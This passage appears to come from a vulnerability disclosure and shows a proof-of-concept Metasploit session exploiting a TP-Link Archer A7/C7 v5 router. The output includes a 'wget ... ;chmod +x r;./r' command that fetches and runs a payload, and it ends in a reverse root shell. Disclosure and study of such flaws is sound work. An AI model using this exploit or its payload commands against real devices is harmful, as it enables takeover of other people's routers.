 > Snippet 5: Example of sending payload char by char

### PoC

```bash
msf6 > use exploit/linux/misc/minesweeper
[*] Using configured payload linux/mipsbe/shell_reverse_tcp
msf6 exploit(linux/misc/minesweeper) > set rhost 192.168.0.1
rhost => 192.168.0.1
msf6 exploit(linux/misc/minesweeper) > set lhost 192.168.0.100
lhost => 192.168.0.100
msf6 exploit(linux/misc/minesweeper) > set srvhost 192.168.0.100
srvhost => 192.168.0.100
msf6 exploit(linux/misc/minesweeper) > run

[*] Started reverse TCP handler on 192.168.0.100:4444
[*] Attempting to exploit TP-Link Archer A7/C7 (AC1750) v5 (firmware 200721)
[*] Starting up our web service on http://192.168.0.100:8080 ...
[*] Using URL: http://192.168.0.100:8080/r
[*] 192.168.0.1:20002 - Connecting to the target
[*] 192.168.0.1:20002 - Sending command file byte by byte
[*] 192.168.0.1:20002 - Command: wget http://192.168.0.100:8080/r;chmod +x r;./r
[*] 192.168.0.1:20002 - [0%]= = => - - - - - - - - - - - - - - - -[100%]
[*] 192.168.0.1:20002 - [0%]= = = = = = => - - - - - - - - - - - -[100%]
[*] 192.168.0.1:20002 - [0%]= = = = = = = = = = => - - - - - - - -[100%]
[*] 192.168.0.1:20002 - [0%]= = = = = = = = = = = = = = => - - - -[100%]
[*] 192.168.0.1:20002 - [0%]= = = = = = = = = = = = = = = = = = =>[100%]
[*] 192.168.0.1:20002 - Command file sent, attempting to execute...
[+] 192.168.0.1:20002 - Sending executable to the router
[+] 192.168.0.1:20002 - Sit back and relax, Shelly will come visit soon!
[*] Command shell session 1 opened (192.168.0.100:4444 -> 192.168.0.1:57818) at 2020-11-01 21:53:30 +0700
[*] Server stopped.

uid=0(root) gid=0(root)
uname -a
Linux ArcherA7v5 3.3.8 #1 Tue Jul 14 22:44:46 CST 2020 mips GNU/Linux
```

